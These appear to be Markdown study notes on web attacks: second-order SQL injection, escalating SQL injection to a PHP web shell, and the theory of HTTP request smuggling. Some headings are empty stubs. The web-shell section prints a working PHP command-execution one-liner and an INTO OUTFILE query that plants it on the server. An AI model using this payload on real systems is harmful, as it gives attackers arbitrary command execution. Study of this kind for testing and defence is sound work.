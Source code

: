 Second-order SQL injection occurs when input is injected into one part of the application, and the output is revealed later. During this process, the application retrieves and uses stored data without proper validation or sanitization.


**JWT-Based SQL injection**
..


## <font color="red">Escalating the vulnerability </font>
### <font color="red">Gain WebShells</font>:
Let’s say we’re targeting a PHP application. The following piece
of PHP code will take the request parameter named cmd and execute it as a
system command:
	<? system($_REQUEST['cmd']); ?>
	You can use the SQL injection vulnerability to upload this PHP
code to a location that you can access on the server by using INTO OUTFILE. For
example, you can write the password of a nonexistent user and the PHP code
<? system($_REQUEST['cmd']); ?> into a file located at /var/www/html/shell.php on
the target server:
	
	SELECT Password FROM Users WHERE Username='abc'
	UNION SELECT "<? system($_REQUEST['cmd']); ?>"
	INTO OUTFILE "/var/www/html/shell.php"
Since the password of the nonexistent user will be blank, you are essen-
tially uploading the PHP script to the shell.php file. Then you can simply
access your shell.php file and execute any command you wish:
	http://www.example.com/shell.php?cmd=COMMAND
	

# <font color="red"> HOST HEADER INJ..</font>


# <font color="red">HTTP SMUGGLING </font>
## Theory :
##### if a message is received with both a `Transfer-Encoding` header field and a Content-Length header field , the latter MUST be ignored
#### **Content-Length**
The Content-Length entity header indicates the size of the entity-body, in bytes, sent to the recipient.
#### **Transfer-Encoding: chunked**
The Transfer-Encoding header specifies the form of encoding used to safely transfer the payload body to the user. Chunked means that large data is sent in a series of chunks

## Reality :
The **Front-End** (a load-balance / Reverse Proxy) **process** the _**content-length**_ or the _**transfer-encoding**_ header and the **Back-end** server **process the other** one provoking a **desyncronization** between the 2 systems. This could be very critical as **an attacker will be able to send one request** to the reverse proxy that will be **interpreted** by the **back-end** server **as 2 different requests**. The **danger** of this technique resides in the fact the **back-end** server **will interpret** the **2nd request injected** as if it **came from the next client** and the **real request** of that client will be **part** of the **injected request**.
